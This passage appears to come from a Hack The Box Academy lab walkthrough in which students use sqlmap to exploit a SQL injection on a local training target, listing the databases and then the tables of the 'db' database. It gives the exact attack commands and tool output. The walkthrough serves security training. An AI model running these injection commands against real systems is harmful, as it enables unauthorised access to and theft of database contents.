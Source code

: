 Now that `sqlmap` confirmed the SQLi vulnerability, students need to dump the databases' names, finding `db`:

Code: shell

```shell
sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt --prefix='"' --dbs --threads=10
```

```shell
┌─[eu-academy-1]─[10.10.15.72]─[htb-ac-413848@htb-0ptxut4w0g]─[~]
└──╼ [★]$ sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt --prefix='"' --dbs --threads=10
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.12#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

available databases [3]:
[*] db
[*] information_schema
[*] performance_schema
<SNIP>
```

Students then need to enumerate the table names of the `db` database, finding `secretdata`:

Code: shell

```shell
sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt --prefix='"' --tables -D db --threads=10
```

```shell
┌─[eu-academy-1]─[10.10.15.72]─[htb-ac-413848@htb-0ptxut4w0g]─[~]
└──╼ [★]$ sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt --prefix='"' --tables -D db --threads=10
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.12#stable}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: db
[2 tables]
+------------+
| secretdata |
| users      |
+------------+
<SNIP>
```
